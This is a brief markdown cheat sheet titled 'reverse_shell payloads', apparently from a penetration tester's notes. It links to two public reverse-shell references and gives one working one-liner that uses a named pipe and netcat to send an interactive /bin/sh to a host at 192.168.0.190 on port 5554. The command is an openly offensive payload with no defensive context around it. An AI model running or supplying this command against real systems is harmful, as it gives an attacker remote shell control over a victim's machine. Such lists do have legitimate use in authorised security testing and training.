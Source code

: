 ### reverse_shell payloads

Link: https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md


https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet



#### Shell
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.0.190 5554 >/tmp/f
```